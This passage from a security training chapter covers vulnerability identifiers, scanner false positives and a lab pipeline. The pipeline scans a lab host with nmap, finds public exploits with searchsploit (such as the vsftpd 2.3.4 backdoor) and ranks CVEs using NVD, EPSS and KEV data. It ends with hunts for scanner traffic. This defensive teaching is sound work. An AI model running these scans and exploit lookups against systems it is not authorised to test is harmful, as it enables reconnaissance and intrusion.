cpe:2.3:a:apache:log4j:2.14.1:*:*:*:*:*:*:*
  |   |  |   |      |     |
  |   |  |   |      |     +-- version
  |   |  |   |      +-------- product
  |   |  |   +--------------- vendor
  |   |  +------------------- part: a=application, o=operating system, h=hardware
  |   +---------------------- CPE version
  +-------------------------- prefix
```

The eleven fields after `cpe:2.3:` are, in order: **part, vendor, product, version, update, edition, language, sw_edition, target_sw, target_hw, other**. `*` means ANY and `-` means NA (not applicable). Values are lower-cased and special characters are escaped with a backslash.

NVD expresses applicability as **configuration nodes** combining CPE matches with `AND`/`OR` operators and version range bounds:

```json
{
  "configurations": [
    {
      "nodes": [
        {
          "operator": "OR",
          "negate": false,
          "cpeMatch": [
            {
              "vulnerable": true,
              "criteria": "cpe:2.3:a:apache:log4j:*:*:*:*:*:*:*:*",
              "versionStartIncluding": "2.0",
              "versionEndExcluding": "2.3.1",
              "matchCriteriaId": "..."
            }
          ]
        }
      ]
    }
  ]
}
```

The four range bounds — `versionStartIncluding`, `versionStartExcluding`, `versionEndIncluding`, `versionEndExcluding` — are what actually determine a match. `AND` nodes express "vulnerable product X **running on** platform Y", where the platform node has `"vulnerable": false`.

Query the NVD by CPE:

```bash
curl -s -G 'https://services.nvd.nist.gov/rest/json/cves/2.0' \
  --data-urlencode 'cpeName=cpe:2.3:a:apache:http_server:2.4.49:*:*:*:*:*:*:*' \
  -H "apiKey: $NVD_API_KEY" \
  | jq -r '.vulnerabilities[].cve
           | [.id, (.metrics.cvssMetricV31[0].cvssData.baseScore // "n/a")] | @tsv'
```

- `-G` forces a GET and appends the `--data-urlencode` values as query parameters.
- `--data-urlencode` is essential: a CPE string contains `:` and `*`, which must be percent-encoded.

### Why Matching Goes Wrong — the false-positive machine

This is where the majority of a real assessor's time goes. Every one of these produces findings that are wrong, and a client will find them.

**1. Backporting.** Enterprise distributions fix vulnerabilities by applying an upstream patch to an older version without changing the version number. Red Hat, Debian, Ubuntu and SUSE all do this pervasively.

```bash
# What the banner says
$ curl -sI http://target/ | grep -i server
Server: Apache/2.4.6 (CentOS)

# What is actually installed
$ rpm -q --changelog httpd | head -6
* Mon Jan 15 2024 Red Hat <security@redhat.com> - 2.4.6-99.el7
- Resolves: CVE-2023-25690 (mod_proxy request smuggling)
- Resolves: CVE-2023-27522 (mod_uwsgi response splitting)
```

A version-only scanner sees "Apache 2.4.6", matches every CVE affecting 2.4.6, and reports dozens of Criticals. The host is patched. **The fix is authenticated scanning**: query the package manager and compare against the distro's own advisory data (OVAL/CSAF), not upstream version ranges.

```bash
# Debian/Ubuntu: what's installed and from which security pocket
dpkg -l openssl
apt-get changelog openssl 2>/dev/null | head -20

# RHEL family: is a specific CVE fixed in the installed package?
rpm -q --changelog openssl | grep -i CVE-2023-0286
```

**2. Vendor/product string ambiguity.** The same product appears under multiple CPE vendor names across its history (after acquisitions, renames, or forks). A CPE query on one name silently misses CVEs filed under the other. Always check for aliases before concluding a product is clean.

**3. Missing or absent CPE data.** Unenriched records have no CPE at all, so CPE-based matching cannot find them — see Part 4.

**4. Configuration-dependent vulnerabilities.** A CVE may only apply when a specific module is loaded, a specific option is enabled, or the product runs in a specific mode. CPE has limited ability to express this, so scanners over-report. Reading the CVE description for "when configured with…" is a five-second check that removes a lot of noise.

**5. Bundled and vendored copies.** A vulnerable library compiled statically into an appliance, bundled inside a JAR, or vendored into a Go binary has no package-manager record and no banner. Neither CPE matching nor package queries find it. This is what SBOM and SCA tooling exist for.

**6. Container base images.** A container reports the OS of its base image. If the image was built from a tag six months ago and never rebuilt, every CVE fixed since then is present — and the running host's patch status is irrelevant.

```bash
# Scan a container image's package inventory rather than trusting a banner
trivy image --severity HIGH,CRITICAL --ignore-unfixed nginx:1.21
```

`--ignore-unfixed` suppresses vulnerabilities for which the distro has not yet shipped a fix — useful for an actionable queue, dangerous if you forget you set it, because it hides real, currently-unfixable exposure.

### Validating a Finding Before You Report It



The output of this process is what distinguishes an assessment from a scan. Every suppressed finding should carry the evidence that suppressed it — a changelog line, a config excerpt, a `netstat` output showing the localhost binding. Six months later, when someone asks why you closed it, the evidence is the answer.

---
## Part 9: The Wider Identifier Ecosystem

CVE/CWE/CVSS are the backbone, but real environments produce findings keyed on half a dozen other identifiers. Knowing what each one is prevents you from reporting the same flaw three times under three names.

| Identifier | Issued by | Covers | Relationship to CVE |
|---|---|---|---|
| **CVE** | CVE Program / CNAs | Everything | The canonical name |
| **GHSA-xxxx-xxxx-xxxx** | GitHub Security Advisory DB | Open-source packages | Usually maps to a CVE; sometimes exists first, sometimes with no CVE at all |
| **OSV IDs** (via osv.dev) | OSV project, aggregating many sources | Open-source, per-ecosystem | Aggregates GHSA, PYSEC, RUSTSEC, GO, etc.; cross-references CVE |
| **RHSA / RHBA / RHEA** | Red Hat | RHEL packages | One advisory can fix many CVEs |
| **DSA-nnnn** | Debian | Debian packages | Maps to one or more CVEs |
| **USN-nnnn-n** | Ubuntu | Ubuntu packages | Maps to one or more CVEs |
| **SUSE-SU-YYYY:nnnn** | SUSE | SUSE packages | Maps to CVEs |
| **ALAS-YYYY-nnnn** | Amazon | Amazon Linux | Maps to CVEs |
| **MSRC / KBnnnnnnn** | Microsoft | Windows and Microsoft products | Cumulative updates fix many CVEs at once |
| **VU#nnnnnn** | CERT/CC | Coordinated multi-vendor issues | Often umbrella for several CVEs |
| **ZDI-nn-nnn** | Trend Micro ZDI | Bugs bought through their program | Published alongside or before the CVE |
| **BDU / CNNVD / JVN** | Russian, Chinese, Japanese national DBs | Regional coverage | Partially overlapping, occasionally unique entries |
| **CWE** | MITRE | Weakness classes | Categorises CVEs |
| **CAPEC** | MITRE | Attack *patterns* | Links to CWEs — "how it is attacked" |
| **ATT&CK** (T-IDs) | MITRE | Adversary techniques | Behaviour-level; links loosely to CAPEC |
| **CPE / PURL** | NVD / package-url spec | Product naming | The join key between an inventory and a CVE |
| **CCE** | NIST | Configuration settings (not flaws) | Used by benchmarks, not CVE |

Two of these deserve more than a table row.

### OSV — CVE for the package ecosystem

CPE was designed for shipped enterprise products and fits open-source dependency trees badly. **OSV** (Open Source Vulnerabilities) uses **PURL** (package URLs, e.g. `pkg:npm/lodash@4.17.20`) and per-ecosystem version semantics instead. Its API takes a package and version and returns applicable advisories:

```bash
curl -s https://api.osv.dev/v1/query \
  -d '{"package":{"name":"log4j-core","ecosystem":"Maven"},"version":"2.14.1"}' \
  | jq -r '.vulns[] | [.id, (.aliases // [] | join(","))] | @tsv'
```

```
GHSA-jfh8-c2jp-5v3q	CVE-2021-44228
GHSA-7rjr-3q55-vv33	CVE-2021-45046
GHSA-8489-44mv-ggj8	CVE-2021-45105
```

The **`aliases`** field is the cross-walk you need: it tells you that `GHSA-jfh8-c2jp-5v3q` and `CVE-2021-44228` are the same flaw. Deduplicating on aliases is what stops a report listing one vulnerability three times.

`-d '{...}'` sends a POST with a JSON body; the OSV query endpoint expects POST, unlike the GET-based NVD and EPSS APIs.

### VEX and SBOM — saying "we ship it, but we're not affected"

An **SBOM** (Software Bill of Materials, in SPDX or CycloneDX format) lists what components a product contains. Run a naive scanner over an SBOM and you get every CVE affecting every component — including the many that are unreachable because the vulnerable function is never called.

**VEX** (Vulnerability Exploitability eXchange) is the machine-readable answer. For a given product-plus-vulnerability, a VEX statement asserts one of:

| VEX status | Meaning |
|---|---|
| `not_affected` | The vulnerability is present in a component but not exploitable in this product (with a required justification) |
| `affected` | Exploitable; action recommended |
| `fixed` | Already remediated in this version |
| `under_investigation` | Triage in progress |

`not_affected` requires a justification such as *component not present*, *vulnerable code not present*, *vulnerable code not in execute path*, *vulnerable code cannot be controlled by adversary*, or *inline mitigations already exist*.

**Why an assessor cares:** when a vendor supplies a VEX, you can suppress large numbers of findings with a defensible, auditable reason instead of arguing case by case. When a vendor does *not* supply one, "please provide a VEX for your SBOM" is a reasonable and increasingly common contractual ask.

### SCAP — the standard that ties them together

**SCAP** (Security Content Automation Protocol) is NIST's umbrella specification that bundles these languages so that compliance tooling is interoperable. Its components:

| Component | Role |
|---|---|
| **XCCDF** | Expresses the checklist/benchmark and its rules |
| **OVAL** | Expresses *how to test* for a state on a system |
| **CPE** | Names the platform a rule applies to |
| **CVE** | Names the flaw |
| **CVSS** | Scores the flaw |
| **CCE** | Names a *configuration* setting |
| **ARF** | Format for reporting assessment results |

You meet SCAP through OpenSCAP on Linux (`oscap`) and through the CIS Benchmark and DISA STIG content distributed in this format. It is the machinery behind "run a STIG scan", and its OVAL definitions are how distro vendors publish backport-aware patch state — the correct answer to the false-positive problem in Part 8.

```bash
# Evaluate a host against a distro's OVAL patch definitions (backport-aware)
oscap oval eval --results oval-results.xml com.redhat.rhsa-all.xml
```

---

## Part 10: Hands-On Lab — Build a CVE Enrichment and Prioritization Pipeline

This lab takes you from an Nmap service scan to a ranked remediation list enriched with CVSS, EPSS and KEV. Everything runs on Kali or any Debian-based system, and nothing here touches a host you do not own — the scanning stage targets a deliberately vulnerable VM in your own lab (Metasploitable, or any target from the lab you built in the Penetration Testing notebook).

> **Authorisation.** Scanning is an active, logged, sometimes disruptive act. Run the scanning stage only against systems you own or have written authorisation to test. The enrichment stages touch only public APIs and are safe anywhere.

### Step 0 — Tooling from scratch

**`jq`** — a command-line JSON processor. Every API in this chapter returns JSON; `jq` is how you turn it into rows. It works as a filter language: `.foo` selects a key, `.[]` iterates an array, `|` pipes between filters, `select(...)` filters, and `@tsv`/`@csv` format output.

```bash
sudo apt update && sudo apt install -y jq curl
jq --version
```

```
jq-1.7.1
```

Three idioms carry most of the weight:

```bash
echo '{"a":{"b":[1,2,3]}}' | jq '.a.b[]'          # iterate a nested array → 1 2 3
echo '[{"n":1},{"n":9}]'   | jq '.[]|select(.n>5)' # filter → {"n":9}
echo '{"x":null}'          | jq -r '.x // "none"'  # default for null → none
```

`-r` emits raw strings without JSON quoting — essential when piping into `awk` or a shell variable.

**`searchsploit`** — the offline command-line search interface to the Exploit-DB archive. It is not a scanner and not an exploitation framework; it answers one question fast: *is there public exploit code for this software, and where is the file?* Exploit-DB is mirrored locally, so it works with no internet access.

```bash
sudo apt install -y exploitdb
searchsploit --version
sudo searchsploit -u          # update the local Exploit-DB mirror
```

Core usage:

```bash
searchsploit vsftpd 2.3.4
```

```
--------------------------------------------------- ---------------------------------
 Exploit Title                                     |  Path
--------------------------------------------------- ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution          | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metas.) | unix/remote/17491.rb
--------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

| Flag | Purpose |
|---|---|
| `-t` | Search the title only — far fewer false hits than the default full-text search |
| `-w` | Show Exploit-DB URLs instead of local paths |
| `-j` | JSON output — the flag that makes it scriptable |
| `-m <id>` | Mirror (copy) the exploit file into the current directory |
| `-x <id>` | Examine (page) the exploit source |
| `-p <id>` | Show the full path and metadata for an exploit ID |
| `--cve <id>` | **Search by CVE — the join we need for this pipeline** |
| `--exclude="term"` | Drop noisy matches (e.g. `--exclude="/dos/"`) |
| `--nmap <file.xml>` | Feed an Nmap XML file directly and search for every detected service |

```bash
searchsploit --cve 2011-2523 -j | jq -r '.RESULTS_EXPLOIT[] | [.Title, .Path] | @tsv'
```

```
vsftpd 2.3.4 - Backdoor Command Execution	exploits/unix/remote/49757.py
```

**Read the exploit before you run it.** `searchsploit -x` exists for exactly this reason. Public exploit code is unreviewed, frequently destructive, and occasionally malicious.

**`nmap` NSE vulnerability scripts** — Nmap was covered from scratch in the Scanning & Enumeration notebook; here we use two capabilities. The built-in `vuln` category runs safe-ish checks for known flaws. The third-party `vulners` script takes Nmap's detected version strings and queries the Vulners database for matching CVEs with scores.

```bash
# vulners is not shipped with Nmap; install it into the NSE script directory
sudo curl -sL https://raw.githubusercontent.com/vulnersCom/nmap-vulners/master/vulners.nse \
     -o /usr/share/nmap/scripts/vulners.nse
sudo nmap --script-updatedb
```

`--script-updatedb` rebuilds `script.db`, the index Nmap consults to resolve script names and categories. Skip it and Nmap will not find the new script.

### Step 1 — Enumerate the target

```bash
sudo nmap -sV -sC -p- --min-rate 2000 -oA scan-target 10.10.10.50
```

| Flag | Purpose |
|---|---|
| `-sV` | Service and version detection — **required**, since everything downstream keys on version strings |
| `-sC` | Run the `default` NSE script category |
| `-p-` | All 65,535 TCP ports, not just the top 1,000 |
| `--min-rate 2000` | Send at least 2,000 packets/sec; keeps a full-port scan to minutes. Lower it on fragile networks |
| `-oA scan-target` | Write all three output formats — `.nmap` (human), `.gnmap` (greppable), `.xml` (machine). The XML is what we parse |

```
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
```

### Step 2 — Map services to CVEs

```bash
sudo nmap -sV --script vulners --script-args mincvss=7.0 -p21,22,80,445,3306 10.10.10.50
```

`--script-args mincvss=7.0` suppresses everything the Vulners data scores below 7.0 — useful for a first pass, but remember Part 7: never make this your only filter, because KEV entries scored below 7.0 exist.

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
| vulners:
|   cpe:/a:vsftpd:vsftpd:2.3.4:
|       CVE-2011-2523   10.0    https://vulners.com/cve/CVE-2011-2523  *EXPLOIT*
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) DAV/2)
| vulners:
|   cpe:/a:apache:http_server:2.2.8:
|       CVE-2010-0425   10.0    https://vulners.com/cve/CVE-2010-0425
|       CVE-2011-3192    7.8    https://vulners.com/cve/CVE-2011-3192  *EXPLOIT*
|       CVE-2009-1891    7.1    https://vulners.com/cve/CVE-2009-1891
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian
| vulners:
|   cpe:/a:samba:samba:3.0.20:
|       CVE-2007-2447   10.0    https://vulners.com/cve/CVE-2007-2447  *EXPLOIT*
```

The `*EXPLOIT*` marker means Vulners has associated public exploit code. Treat the whole output as **hypotheses to validate**, not findings — this is pure version-banner matching and every caveat from Part 8 applies.

Cross-check the same scan against Exploit-DB using the XML you already saved:

```bash
searchsploit --nmap scan-target.xml
```

### Step 3 — Collect the candidate CVEs

```bash
sudo nmap -sV --script vulners -p21,22,80,445,3306 10.10.10.50 -oN vulners.txt

grep -oE 'CVE-[0-9]{4}-[0-9]{4,}' vulners.txt | sort -u > cves.txt
wc -l cves.txt
head cves.txt
```

```
27 cves.txt
CVE-2007-2447
CVE-2009-1891
CVE-2010-0425
CVE-2011-2523
CVE-2011-3192
```

- `grep -oE` — `-o` prints only the matched text (not the whole line), `-E` enables extended regex.
- The `{4,}` is the Part 3 lesson made concrete: `{4}` would drop every five-and-six-digit ID.
- `sort -u` deduplicates.

### Step 4 — Enrich with NVD (CVSS + CWE)

```bash
#!/usr/bin/env bash
# enrich_nvd.sh — fetch CVSS vector, score and CWE for each CVE
set -euo pipefail

: "${NVD_API_KEY:?Set NVD_API_KEY first (free from the NVD portal)}"
OUT="nvd_enriched.tsv"
printf 'cve\tscore\tseverity\tvector\tcwe\n' > "$OUT"

while read -r CVE; do
  [ -z "$CVE" ] && continue
  curl -s -H "apiKey: ${NVD_API_KEY}" \
    "https://services.nvd.nist.gov/rest/json/cves/2.0?cveId=${CVE}" \
  | jq -r --arg cve "$CVE" '
      (.vulnerabilities[0].cve // {}) as $c
      | ($c.metrics.cvssMetricV31[0].cvssData
         // $c.metrics.cvssMetricV30[0].cvssData
         // $c.metrics.cvssMetricV2[0].cvssData
         // {}) as $m
      | [ $cve,
          ($m.baseScore    // "n/a"),
          ($m.baseSeverity // $c.metrics.cvssMetricV2[0].baseSeverity // "n/a"),
          ($m.vectorString // "n/a"),
          ($c.weaknesses[0].description[0].value // "n/a") ]
      | @tsv' >> "$OUT"
  sleep 1
done < cves.txt

column -t -s$'\t' "$OUT"
```

Line by line:

- `set -euo pipefail` — exit on error (`-e`), on undefined variable (`-u`), and make a pipeline fail if any stage fails (`pipefail`). Without this, a failed `curl` silently produces empty rows.
- `: "${NVD_API_KEY:?message}"` — the `:?` parameter expansion aborts with `message` if the variable is unset. Fail loudly at the start rather than after 200 rate-limited requests.
- The chained `//` operators implement the version fallback from Part 6: prefer v3.1, then v3.0, then v2.
- `sleep 1` — rate-limit courtesy. Raise it to 6 if you have no API key.
- `column -t -s$'\t'` — align TSV into readable columns. `$'\t'` is bash ANSI-C quoting for a literal tab.

```
cve            score  severity  vector                                        cwe
CVE-2007-2447  10.0   CRITICAL  AV:N/AC:L/Au:N/C:C/I:C/A:C                     CWE-77
CVE-2011-2523  9.8    CRITICAL  CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H  CWE-78
CVE-2011-3192  7.5    HIGH      CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H  CWE-400
CVE-2010-0425  10.0   CRITICAL  AV:N/AC:L/Au:N/C:C/I:C/A:C                     CWE-noinfo
```

Two things to notice immediately. The v2-only records (`AV:N/AC:L/Au:N/...` with no `CVSS:3.1/` prefix) are older CVEs the NVD never re-scored — **you cannot compare their 10.0 to the v3.1 9.8 numerically**. And `CWE-noinfo` is a real NVD value meaning "no weakness information provided"; `CWE-Other` and `NVD-CWE-noinfo` appear too. Handle them, don't crash on them.

### Step 5 — Enrich with EPSS

```bash
# One batched request instead of N — EPSS accepts a comma-separated list
CVELIST=$(paste -sd, cves.txt)

curl -s "https://api.first.org/data/v1/epss?cve=${CVELIST}" \
  | jq -r '.data[] | [.cve, .epss, .percentile] | @tsv' \
  | sort > epss.tsv

head -5 epss.tsv
```

`paste -sd,` joins all lines of a file into one line (`-s` = serial) with a comma delimiter (`-d,`).

```
CVE-2007-2447	0.974400000	0.999800000
CVE-2009-1891	0.004330000	0.729500000
CVE-2010-0425	0.833700000	0.988700000
CVE-2011-2523	0.977300000	0.999900000
CVE-2011-3192	0.940600000	0.999300000
```

Already the ranking diverges from CVSS: `CVE-2009-1891` is a 7.1 with an EPSS of 0.0043 — a real flaw almost nobody is exploiting.

### Step 6 — Enrich with CISA KEV

```bash
curl -s https://www.cisa.gov/sites/default/files/feeds/known_exploited_vulnerabilities.json -o kev.json

jq -r '.vulnerabilities[] | [.cveID, .knownRansomwareCampaignUse] | @tsv' kev.json \
  | sort > kev.tsv

# Which of our candidates are confirmed exploited?
join -t$'\t' -j1 <(cut -f1 epss.tsv) kev.tsv
```

```
CVE-2007-2447	Unknown
CVE-2011-2523	Unknown
```

`join -t$'\t' -j1` joins two tab-separated files on field 1; both inputs must be sorted on that field, which is why every step above ends in `sort`.

### Step 7 — Merge and rank

```bash
#!/usr/bin/env python3
"""rank.py — merge NVD, EPSS and KEV data into a prioritized queue."""
import csv, json, sys

def load_tsv(path, key=0):
    with open(path) as f:
        return {r[key]: r for r in csv.reader(f, delimiter="\t") if r}

nvd  = load_tsv("nvd_enriched.tsv")
epss = load_tsv("epss.tsv")

with open("kev.json") as f:
    kev = {v["cveID"]: v for v in json.load(f)["vulnerabilities"]}

rows = []
for cve, n in nvd.items():
    if cve == "cve":                       # skip the header row
        continue
    try:
        score = float(n[1])
    except ValueError:
        score = 0.0
    prob   = float(epss.get(cve, [cve, "0"])[1])
    in_kev = cve in kev
    ransom = in_kev and kev[cve].get("knownRansomwareCampaignUse") == "Known"

    # Priority policy from Part 7, encoded
    if in_kev:            priority, why = 1, "KEV" + (" + ransomware" if ransom else "")
    elif prob >= 0.10:    priority, why = 2, f"EPSS {prob:.2f}"
    elif score >= 9.0:    priority, why = 3, f"CVSS {score}"
    else:                 priority, why = 4, "routine"

    rows.append((priority, -prob, cve, score, prob, n[4], why))

rows.sort()
print(f"{'P':<3}{'CVE':<18}{'CVSS':<7}{'EPSS':<9}{'CWE':<14}RATIONALE")
for p, _, cve, score, prob, cwe, why in rows:
    print(f"{p:<3}{cve:<18}{score:<7}{prob:<9.4f}{cwe:<14}{why}")
```

```bash
python3 rank.py
```

```
P  CVE               CVSS   EPSS     CWE           RATIONALE
1  CVE-2011-2523     9.8    0.9773   CWE-78        KEV
1  CVE-2007-2447     10.0   0.9744   CWE-77        KEV
2  CVE-2011-3192     7.5    0.9406   CWE-400       EPSS 0.94
2  CVE-2010-0425     10.0   0.8337   CWE-noinfo    EPSS 0.83
4  CVE-2009-1891     7.1    0.0043   CWE-400       routine
```

**Read the result.** A pure-CVSS sort would have put `CVE-2010-0425` (10.0) at the top and `CVE-2011-2523` (9.8) below it. The enriched sort promotes the two KEV entries — one of which is *lower* scored — and drops a 7.1 to the bottom because essentially nobody exploits it. That inversion, produced by three free public data sources and forty lines of glue, is the entire value proposition of this chapter.

### Step 8 — Validate before reporting

Do not stop at Step 7. For each Priority 1 and 2 finding:

```bash
# Confirm the version is what the banner claimed (authenticated check)
ssh admin@10.10.10.50 'dpkg -l | grep -E "vsftpd|samba|apache2"'

# Confirm the service is actually reachable from the assumed attacker position
nc -zv 10.10.10.50 21

# Confirm the vulnerable configuration is in force, per the CVE description
ssh admin@10.10.10.50 'grep -Ev "^\s*#|^$" /etc/vsftpd.conf'

# Check whether public exploit code exists and read it before deciding anything
searchsploit --cve 2011-2523 -j | jq -r '.RESULTS_EXPLOIT[].Path'
searchsploit -x exploits/unix/remote/49757.py
```

`nc -zv` — `-z` scans without sending data, `-v` reports the result. Confirming reachability from the *attacker's* network position, not from your admin jump box, is the step people skip; a service reachable from management VLAN and nowhere else is a different finding entirely.

### Step 9 — What the finding should look like in the report

> **Finding:** vsftpd 2.3.4 backdoor command execution (CVE-2011-2523)
> **Asset:** 10.10.10.50 (`ftp-legacy-01`), TCP/21, reachable from the user VLAN and from the internet via DNAT.
> **CWE:** CWE-78 — Improper Neutralization of Special Elements used in an OS Command.
> **CVSS-B:** 9.8 — `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H`
> **CVSS-BE (this environment):** 9.8 — no compensating controls apply; no modifications made.
> **Exploitation evidence:** present in the CISA KEV catalog; EPSS 0.977 (99.99th percentile); working public exploit available in Exploit-DB.
> **Validation:** confirmed by authenticated package query (`vsftpd 2.3.4-1`, no distro backport available) and by observing the backdoor trigger response in a controlled test. Not a version-banner inference.
> **Impact:** unauthenticated remote command execution as the FTP daemon's user, on a host with a route to the database VLAN.
> **Priority:** 1 — remediate immediately.
> **Remediation:** remove or upgrade the vsftpd package to a supported version. **Interim compensating control:** remove the DNAT rule and restrict TCP/21 to the management VLAN at the perimeter firewall, which reduces the modified vector to `MAV:A` pending the change window.

Every claim in that finding is backed by an artefact produced in the steps above. That is what a validated assessment looks like, and it is why the deliverable is worth paying for.

---
## Part 11: The Vulnerability Management Lifecycle

Scanning is one step of six. A program that only scans generates findings; a program that closes the loop reduces risk.



**Step 1 dominates everything else.** You cannot scan an asset you do not know exists, and shadow IT, forgotten cloud accounts and unmanaged contractor laptops are where breaches actually start. Coverage — *what fraction of assets are being scanned* — is a more important metric than any severity distribution.

### Authenticated vs Unauthenticated Scanning

| | Unauthenticated (network) | Authenticated (credentialed) |
|---|---|---|
| **What it sees** | What an outsider sees: open ports, banners, some active checks | Installed packages, patch level, config files, registry, local users |
| **False positives** | High — banner inference, backporting blindness | Low — reads actual package versions |
| **False negatives** | High — misses everything not exposed on a port | Low for OS/software, still misses vendored/bundled code |
| **Local privesc findings** | Essentially none | Full visibility |
| **Setup cost** | None | Credential management, agent or WinRM/SSH access |
| **Risk to target** | Higher — probing can crash fragile services | Lower — mostly read operations |
| **Correct use** | Modelling the external attacker's view | Measuring actual patch posture |

The right answer is **both**. Unauthenticated tells you what an attacker sees. Authenticated tells you what is true. Running only unauthenticated scans and calling it vulnerability management is the single most common maturity failure, and it produces exactly the backporting false positives from Part 8.

**Credential handling on an engagement is a real risk you own.** Scanner credentials are, by design, broadly privileged across the estate. Use a dedicated scanning account, scope it as tightly as the scanner permits, source it from a vault rather than a config file, rotate it after the engagement, and log its use. A compromised scanner is a pre-built lateral-movement platform, which is why scanning infrastructure is itself a high-value target.

### Scanning Cadence and SLAs

A typical policy — note that these are illustrative, and yours must be derived from your own risk appetite and change capacity:

| Trigger | Cadence |
|---|---|
| External perimeter | Weekly, plus on every change |
| Internal authenticated | Monthly |
| Container images | Every build, blocking on Critical |
| Dependencies (SCA) | Every commit and daily on the default branch |
| Cloud configuration | Continuous |
| New KEV addition | Ad-hoc emergency check across the estate |

| Priority | Example SLA (internet-facing) | Example SLA (internal) |
|---|---|---|
| P1 (KEV / actively exploited) | 24–72 hours or isolate | 7 days |
| P2 (high EPSS + exposed) | 7 days | 30 days |
| P3 (Critical CVSS, validated) | 30 days | 90 days |
| P4 (routine) | Next patch cycle | Next patch cycle |

**Exceptions and risk acceptance** must be a formal, time-bounded, documented artefact — who accepted it, what the compensating control is, when it will be reviewed, and what changed condition revokes it. An exception with no expiry date is how a Heartbleed-class flaw survives four years in an estate.

### Metrics That Actually Mean Something

| Metric | What it tells you | Failure mode if used alone |
|---|---|---|
| **Asset coverage %** | Are you even looking? | — (this is the one to lead with) |
| **Mean time to remediate (MTTR), by priority** | Can you actually fix things? | Gamed by reclassifying findings downward |
| **SLA compliance %** | Is the policy being followed? | Gamed by setting weak SLAs |
| **KEV exposure count and age** | Are you exposed to *known* attacks? | — (near-zero should be non-negotiable) |
| **Recurrence rate** | Do fixes stick, or do images get rebuilt from stale bases? | — |
| **Total open findings** | Almost nothing | **Always** goes up; punishes better scanning |

Never report "total vulnerabilities" as a headline. It rises when you improve coverage, which perversely makes better security look like worse security to an executive.

---

## Part 12: How Scanners Lie — Pitfalls and Common Mistakes

**1. Treating CVSS base score as risk.** Covered at length; it is the root of most of the rest.

**2. Comparing scores across CVSS versions.** A v2 10.0 and a v3.1 9.8 are not commensurable. Sort within a version, never across.

**3. Using `CVE-\d{4}-\d{4}` as a regex.** Drops the majority of modern IDs. Use `CVE-\d{4}-\d{4,}`.

**4. Assuming the year in a CVE ID is the disclosure year.** It is the reservation year.

**5. Filtering on NVD score and losing unenriched records.** The newest and most dangerous records are the least likely to be enriched. Route "no score" to human triage.

**6. Believing version banners.** Backporting, deliberately falsified `Server:` headers, load balancers rewriting responses, and honeypots all produce wrong versions. Confirm with authenticated data.

**7. Ignoring configuration preconditions.** A CVE that only applies "when `mod_proxy` is enabled with a reverse-proxy configuration" is not a finding on a host without `mod_proxy`. Read the description.

**8. Scanning only what has a port open.** Local privilege escalation, vulnerable desktop applications, browser components and vendored libraries never appear in a network scan.

**9. Forgetting containers and their base images.** The host being patched says nothing about the image. Scan images at build and at rest in the registry, and rebuild — patching a running container is not remediation, since the next deploy reverts it.

**10. Trusting `--ignore-unfixed` and equivalent defaults.** Convenient for actionable queues, dangerous when you forget: it hides real exposure that simply has no patch yet, which is precisely the zero-day-adjacent case you most need to know about.

**11. Scanning fragile targets without warning.** ICS/SCADA devices, printers, medical equipment and old embedded stacks can be knocked over by an aggressive Nmap scan, let alone a scanner's active checks. Agree the target list and the intensity in writing before you start, and use safe-check-only modes on anything operational.

**12. Reporting the same flaw under three identifiers.** GHSA, CVE and a distro advisory for one issue is one finding. Deduplicate on OSV aliases.

**13. Failing to rescan after remediation.** "Marked as fixed" is not evidence. Verification closes the loop; without it, your MTTR metric measures ticket hygiene, not security.

**14. Letting the scan report *be* the deliverable.** The exported PDF is an input to your work, not the output of it.

---

## Part 13: Detection & Defense Angle

This section consolidates what a defender does with everything above — both defending *against* the reconnaissance this chapter enables, and using CVE/CWE/CVSS data as a defensive asset.

### Detecting Vulnerability Scanning Against You

Scanning is noisy and highly detectable if you are looking. Signatures to build detections around:

| Signal | What it looks like | Where to see it |
|---|---|---|
| **Port-scan fan-out** | One source touching many ports on one host, or one port across many hosts, in a short window | Firewall/flow logs, Zeek `conn.log` |
| **Version-probe payloads** | Nmap's service-detection probes send distinctive strings; NSE scripts leave distinctive request patterns | IDS signatures, Zeek, application logs |
| **Scanner user-agents** | `Nessus`, `Nuclei`, `Nikto`, `sqlmap`, `masscan` in HTTP `User-Agent` | Web server / WAF logs |
| **404 storms** | Content discovery hammering non-existent paths | Web server logs, error-rate metrics |
| **Authentication spray from the scanner account** | The credentialed scanner logging into hundreds of hosts | Windows 4624/4625, Linux `auth.log` |
| **Slow, distributed scanning** | Deliberately below rate thresholds — the hard case | Long-window flow analytics, not per-event rules |

Two Zeek-style hunting queries you can adapt:

```bash
# Hosts contacting an unusually large number of distinct destination ports
zeek-cut id.orig_h id.resp_h id.resp_p < conn.log \
  | sort -u | awk '{c[$1]++} END {for (h in c) if (c[h] > 100) print c[h], h}' \
  | sort -rn | head
```

```bash
# Web requests carrying known scanner user-agents
grep -Ei 'nessus|nuclei|nikto|sqlmap|masscan|zgrab|acunetix' /var/log/nginx/access.log \
  | awk '{print $1}' | sort | uniq -c | sort -rn | head
```

**Important nuance:** your own authorised scanner produces every one of these signals. Detection engineering here is not "alert on scanning" — it is "alert on scanning **that is not the scanner we authorised, from the source we expect, in the window we agreed**". Maintain an allow-list of scanner source IPs and scan windows, and alert on the delta. A red team that scans from the scanner's own subnet during a Tuesday-night maintenance window is invisible to a naive rule.

